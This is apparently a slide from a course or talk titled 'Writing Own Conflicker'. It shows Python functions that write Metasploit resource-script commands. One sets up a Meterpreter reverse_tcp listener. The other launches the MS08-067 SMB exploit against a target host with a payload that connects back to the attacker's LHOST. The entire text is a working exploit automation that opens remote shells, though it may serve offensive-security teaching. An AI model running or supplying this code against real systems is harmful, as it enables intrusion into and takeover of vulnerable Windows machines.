

# Writing Own Conflicker
def setup_handler(config_file, lhost, lport):
    config_file.write('use exploit/multi/handler\n')
    config_file.write('set payload windows/meterpreter/reverse_tcp\n')
    config_file.write(f'set LPORT {str(lport)}\n')
    config_file.write(f'set LHOST {lhost}\n')
    config_file.write('exploit -j -z\n')
    config_file.write('setg DisablePayloadHandler 1\n')
def conficker_exploit(config_file, host, lhost, lport):
    config_file.write('use exploit/windows/smb/ms08_067_netapi\n')
    config_file.write(f'set RHOST {str(host)}\n')
    config_file.write('set payload windows/meterpreter/reverse_tcp\n')
    config_file.write(f'set LPORT {str(lport)}\n')
    config_file.write(f'set LHOST {lhost}\n')
    config_file.write('exploit -j -z\n')